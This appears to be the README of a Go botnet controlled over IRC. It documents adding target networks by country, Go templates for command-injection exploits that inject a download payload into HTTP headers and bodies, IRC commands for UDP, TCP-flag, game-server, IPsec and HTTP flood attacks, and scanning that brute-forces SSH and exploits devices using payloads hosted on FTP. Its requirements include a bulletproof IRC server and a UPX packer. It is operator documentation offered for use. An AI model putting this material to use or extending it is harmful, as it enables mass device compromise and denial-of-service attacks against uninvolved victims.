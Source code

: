 # Scan Method
Option about the scan feature in this bot is to scope scan on CN, USA, KR, and BR networks by default. However, you can also do a random scan, or even add your own networks. All of these is up to you.
	
	# How to add more scanner network (Create your own scan mod).
	
	1) Go to the scanner.go file and add a new slice for your scan network.
	
		Example:
			
			var Italy_Network = []string {
				"123.456", //123.456.0.0/16
			}
						
	2) Go to the header.go file and scroll down to the map name "ScanMap".
	3) Customize your key and value. The value of the map is structure, so you need to call a value in the "Bot" structure and fill it.
	
		Example:
		
			"-fi": {				 // This key will be the command of a network arg in the "?scan" command.
				scanNetwork: Finland_Network, 	 // Fill the "scanNetwork" that's a value of the "Bot" structure. To your network slice.
				scanOptFull: "\"FINLAND\"",	 // Add the full name of the network for a reporting process.
				isRandom:    false,		 // Set "isRandom" to false because it's not a full random network.
			},
	
	4) Done... Just save it.
	
# Add/Customize Exploit
The vulnerability exploit that's used in this botnet will mostly be command injection exploits. You can add more new exploits if you want, but I recommend using a command injection vulnerability exploit. This is because you won't need to add or write anything more; you just need to configure it. I try to make the exploit feature easy and flexible to the configuration as much as i can. If the two examples down below is not enough, you can also see more examples in <b>"internal/exploit.go".</b>

	#################################################################
	### Example 1: In case that you want to add a new HTTP header ###
	#################################################################
	
	func (b *Bot) CVE_someYear_newCVE1() {
		
		// If you add a post exploit, then customize it with a JSON.
		// In case that your exploit needs to inject on a post body just call an inject function --> b.inject("default or MIPS", true)
		
		
		// This example will use default architecture so that's why we put "default" if your exploit use MIPS just put "mips".
		// Always put true because we are doing an exploit not scanning (The inject function has been reused in the scanner function).
			
		newCVE1, _ := json.Marshal(map[string]string{
			"example":      "something",
			"example":      "something"+b.inject("mips", true),
		})
		
		// This is just a HTTP header customization.
		// Incase your exploit needs to inject on a header just do the same with the body. 
		
		enewCVE1 := Exploit{
			exploitName:       "CVE_someYear_newCVE1",			// Customize the exploit name for a reporting process.
			exploitMethod:     "POST",					// Which HTTP method you will use for this exploit?
			exploitPath:       "example/something",				// Customize URL path.
			exploitBody:       strings.NewReader(string(newCVE1)),	        // Customize HTTP body.
			exploitAgent:      "example"+b.inject("mips", true),		// Customize HTTP agent.
			exploitAccept:     "example",					// Customize HTTP accept.
			exploitContType:   "example",					// Customize HTTP content type.
			exploitConnection: "example",					// Customize HTTP connection.
		}
		
		// If you want to add new header then just call it, like the example down below.
		
		_, newHeader := enewCVE1.setupExploit(b.tempIP)			// Use "enewCVE1" for calling the Exploit structure-function.
		newHeader.Header.Set("newHeader", "headerContent")		// Add a new header (header, header_content).
		b.exploitLauncher(enewCVE1, newHeader)				// Launch the exploit by putting the exploit structure and header in to "b.exploitLauncher(ourExploit, ourHeader)" function.
	}
	
	##################################################################
	### Example 2: In case you don't need to add a new HTTP header ###
	##################################################################
	
	// This example is the same as the first example in terms of header and body configs.
	
	func (b *Bot) CVE_someYear_newCVE2() {			
		newCVE2, _ := json.Marshal(map[string]string{
			"example":      "something",
			"example":      "something"+b.inject("", true),
		})
		enewCVE2 := Exploit{
			exploitName:       "CVE_someYear_newCVE2",			// Customize the exploit name for a reporting process.
			exploitMethod:     "POST",					// Which HTTP method you will use for this exploit?
			exploitPath:       "example/something",				// Customize URL path.
			exploitBody:       strings.NewReader(string(newCVE2)),	        // Customize HTTP body.
			exploitAgent:      "example"+b.inject("", true),		// Customize HTTP agent.
			exploitAccept:     "example",					// Customize HTTP accept.
			exploitContType:   "example",					// Customize HTTP content type.
			exploitConnection: "example",					// Customize HTTP connection.
		}

		b.exploitLauncher(enewCVE2,  b.selfRequest(enewCVE2))		// In the first example, you need to call "setupExploit" function but in this example, you don't need to call it.
										// Just call the "exploitLauncher" function and in the second argument using the "selfRequest" function instead of a newHeader value. 
										// Because we only use the default header set and then put our exploit structure into the "selfRequest" argument.
	}
	
# Attack Feature
The attack feature will mostly focus on the transport layer attack, but it will also include application and network layer attacks. All of the attack vectors, except for the "HTTP" DDoS attack vectors, will use random source ports and windows size automatically. However, the destination port will be configurable by the bot herder themselves.

	# tcp -syn 127.0.0.1 192.168.50.129 -r 100

<img src="assets/synflood.png" alt="synflood, DoS example">

# IRC Commands
 	ATTACK VECTORS:
	
	# The min and max of attack size will be 50 - 1400 bytes. If you put over or lower size it will set to 100 automatically.

	?udp <src> <dst> <port> <size>                Just a normal UDP flood attack.
	?tcp <flag> <src> <dst> <port> <size>	      TCP flood with customizes flag.

		-syn            TCP flood with syn packet, just a normal SYN flood.
		-ack		TCP flood with ack packet, just a normal ACK flood.
		-psh		TCP flood with psh packet, just a normal PSH flood.
		-urg		TCP flood with urg packet, just a normal URG flood.
		-rst		TCP flood with RST packet, for broke a TCP connection between client and target server.
		-fin		TCP flood with FIN packet, to request close connection when target server is blocking a syn packet.

	?saf <src> <dst> <port> <size>                Flood by using TCP SYN+ACK flags to the target server.
	?xmas <src> <dst> <port> <size>		      Flood TCP packets by using all of the TCP flags to the target server.
	?vse <src> <dst> <port>			      Flood TSource Engine Query request to the target game server that used valve source engine.
	?fms <src> <dst>			      Flood query payload to a FiveM game server.
	?ipsec <src> <dst>			      Flood payload to overwhelm system resources of VPN service and make IPSec VPN connections being affected.
	?poling <url>			      	      Flood HTTP post-login requests to the target login web page, didn't do any of IP spoofing!!!
	?jumbo <url>				      Flood HTTP post request with a big XML payload, didn't do any of IP spoofing!!!
	?get <url>			      	      Flood HTTP get requests to the target website, didn't do any of IP spoofing!!!

	SCAN FUNCTION:
		
	# Example: ?scan -r ftp://1.2.3.4/bin/payload_x32 ftp://5.6.7.8/bin/payload_mips_x32 ftp://4.3.2.1/bin/payload_arm_x32
		
	?scan <network> <default> <mips> <arm>		Scan default SSH and HTTP port on the network. Brute-force attack, and exploit the target.

		-cn		Scan on China network.
		-usa		Scan on U.S.A network.
		-kr		Scan on south korea network.
		-br		Scan on brazil network.
		-r		Scan with random IPs.
		
	?update <default> <mips> <arm>          Update the bot source code or adapt it as a service.
	?info				        Get bot system information, for bot analysis, etc.
	?kill				        Bot self-close.
	?stopddos 			        Stop DDoS attacking.
	?stopscan			        Stop scanning.
	
# Build Payload

	chmod +x build.sh
	./build.sh <payload>
	
	# The bot system architecture is up to which payload you upload on your payload server.
	# If you upload x32 on your payload server, the bot that you have scanned will be only x32 arch.
	# The MIPS and ARM architecture is specific for doing an exploit only, so it doesn't count to the scan process!!!
	# To run the payload you need to run with root access!!!

# Requirements
<ul>
	<li>x1 Bulletproof IRC Server</li>
</ul>

<ul>
	<li>x1 Payload Hosting Server</li>
</ul>

<ul>
	<li>IRC Client</li>
</ul>

<ul>
	<li>Go Compiler</li>
</ul>

<ul>
	<li>UPX Packer</li>
</ul>

<ul>
	<li>Code\Text Editor</li>
</ul>
